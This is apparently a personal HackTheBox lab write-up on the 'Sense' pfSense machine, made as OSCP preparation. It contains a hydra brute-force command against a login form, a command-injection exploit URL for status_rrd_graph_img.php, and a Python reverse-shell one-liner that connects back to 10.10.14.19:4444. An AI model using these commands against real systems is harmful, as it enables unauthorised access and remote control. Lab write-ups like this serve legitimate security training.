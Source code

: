 # Sense
Name: Sense
Date:  
Difficulty:  Easy
Goals:  OSCP Prep
Learnt: 
- When you get banned learn how to proxy!

## Recon
The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Sense/Screenshots/ping.png)

![lightpd](lighttpd-1-4-35.png)

Nmap found /tree

![tree](silverstripetreedirectory.png)

![links](treeoflinks.png)

![changelog](changelogDOTtxt.png)

Blocked out non multiples of less than 3
![sense](oneofthreevulns.png)
2.2 - 2.4

Research pfsense_ng
[Documentation: Feature list 2.0](https://docs.netgate.com/pfsense/en/latest/releases/2-0-0.html)
FreeBSD!

Basically tried some of the exploits
I missed the system-users.txt file, because I did not proxy after being banned. Checked the video, after one of the exploits required authenication and I tried the others..

![sad](sadban.png)

Tried:
```bash
hydra -l Rohit -P /usr/share/wordlists/rockyou.txt -f 10.129.63.73 http-post-form '/index.php:__csrf_magic=sid%3A9b9199df3b86ab6e2c7871980c946b040c5ac939%2C1662233351&usernamefld=^USER^&passwordfld=^PASS^&login=Login:F=incorrect'
```
Then tried pfsense as password with rohit, not Rohit.

## Exploit

Secondly I changed the exploit to handle string concatenation properly in 3.10 python:

```python
login_url = f"https://{rhost}/index.php"
exploit_url = f"https://{rhost}/status_rrd_graph_img.php?database=queues;printf\'{payload}\'|sh"
```

This also did not work, 

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

## Foothold

## PrivEsc

      
